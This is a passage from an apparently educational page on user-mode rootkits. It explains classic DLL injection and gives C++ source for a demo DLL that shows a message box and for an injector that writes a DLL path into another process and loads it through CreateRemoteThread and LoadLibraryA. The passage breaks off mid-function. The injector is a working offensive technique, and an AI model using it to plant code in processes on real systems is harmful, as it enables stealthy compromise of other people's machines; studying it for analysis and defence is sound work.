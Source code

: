 
### Example 1: Reverse Engineering a Sample Malware Performing a Classic DLL Injection

![screenshot1.png](/User-Mode-Rootkits/screenshot1.png)

**Figure 2: Classic DLL Injection via CreateRemoteThread ([EndGame](https://www.elastic.co/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process))** 


### Example 2: Simple DLL

```cpp
// dllmain.cpp : Defines the entry point for the DLL application.
#include "stdafx.h"
#include <Windows.h>

BOOL APIENTRY DllMain(HINSTANCE hModule, DWORD fdwReason, LPVOID lpReserved) {
	if (fdwReason == DLL_PROCESS_ATTACH) {
		MessageBox(0, L"DLL injected sucessfully!", L"DLL Injection Demo", MB_OK);
	}
	return TRUE;
}
```
**Figure 3: dllmain.cpp**

### Example 3: Classic DLL Injector

```cpp
#include <iostream>
#include <Windows.h>
#include <TlHelp32.h>

//This function can be improved, will work on it whenever I can.
bool injectDll(uintptr_t processID, const char* dllPath) {

	//This will open a handle to the target process
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processID);

	//if the handle is valid then execute condition
	if (hProcess) {
		// This will allocate memory for the dllpath in the target process length of the path string + null terminator
		LPVOID loadPath = VirtualAllocEx(hProcess, 0, strlen(dllPath) + 1, MEM_COMMIT, PAGE_READWRITE);

		// We write the path to the address of the memory we just allocated in the target process
		WriteProcessMemory(hProcess, loadPath, (LPVOID)dllPath, strlen(dllPath) + 1, 0);

		// This will create a Remote Thread in the target process which calls LoadLibraryA as our dllpath as an argument -> program loads our dll
		HANDLE remoteThread = CreateRemoteThread(hProcess, 0, 0, (LPTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandleA("Kernel32.dll"), "LoadLibraryA"), loadPath, 0, 0);

		//We wait for the execution of our loader thread to finish
		WaitForSingleObject(remoteThread, INFINITE);

		// Free the memory allocated for our dll path
		VirtualFreeEx(hProcess, loadPath, strlen(dllPath) + 1, MEM_RELEASE);

		//Clean up and return true
		CloseHandle(remoteThread);
		CloseHandle(hProcess);
		return true;
	}
```